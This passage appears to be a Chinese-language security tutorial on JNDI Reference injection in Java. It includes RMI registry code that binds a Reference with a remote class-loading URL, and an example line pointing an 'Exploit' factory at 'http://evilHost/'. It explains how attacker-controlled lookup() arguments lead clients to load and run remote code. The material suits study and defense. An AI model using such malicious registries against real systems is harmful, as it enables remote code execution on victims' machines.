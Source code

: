```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);


    }
}
```

这里再调用完 Reference 之后 又在调用 ReferenceWrapper 的时候 将前面的 Reference 对象传进去了 其实故名思意 就是 wrap 包装的意思嘛 在我们 查看到 Reference 的时候 发现并没有是心啊 Remote 接口也没有继承`UnicastRemoteObject`​ 之前在 RMI 中了解过 将类注册到 Registry 的时候需要实现 Remote 和继承`UnicastRemoteObject`​在这里并没有体现 所以需要进行封装

### JNDI Reference 注入

为了在命名服务或者目录服务中绑定 Java 对象 可以使用 Java 序列化来传输对象 但是当 Java 对象较大的时候 不是很好处理 于是 JNDI 就定义了命名应用 (Naming References) 这样对象就可以通过绑定一个 可以被命名管理器解码并解析为原始对象的引用 间接存储在命名或目录服务中

引用由 Reference 类表示 由地址 (RefAddress) 的有序列表和所引用对象的信息组成 而每个地址包含了如何构造对应对象的信息 包括引用对象的 Java 类名 以及用于创建对象的 ObjectFactory 类的名称和位置

Reference 可以使用 ObjectFactory 来构造对象 当使用 lookup 方法查找对象时 Reference 将使用提供的 ObjectFactory 类的加载地址来 加载 ObjectFactory 类 ObjectFactory 类将构造出需要的对象

所谓的 JNDI 注入就是控制 lookup 函数的参数 这样来使客户端访问恶意的 RMI 或者 LDAP 服务来加载恶意的对象 从而执行代码 完成利用

在 JNDI 服务中通过绑定一个外部远程对象让客户端请求 从而使客户端恶意代码执行的方式 就是利用 Reference 类实现的 此类表示对存在于命名/目录系统之外的对象的引用

具体则是指如果远程获取 RMI 服务器上的对象为 Reference 类或者子类时 则可以从其他服务器上加载 class 字节码文件来实例化

常用属性

```bash
className 远程加载时所使用的类名
classFactory 加载的 class 中需要实例化的类的名称
classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议
```

比如

```bash
Reference reference = new Reference("Exploit","Exploit","http://evilHost/");
registry.bind("Exploit", new ReferenceWrapper(reference));
```
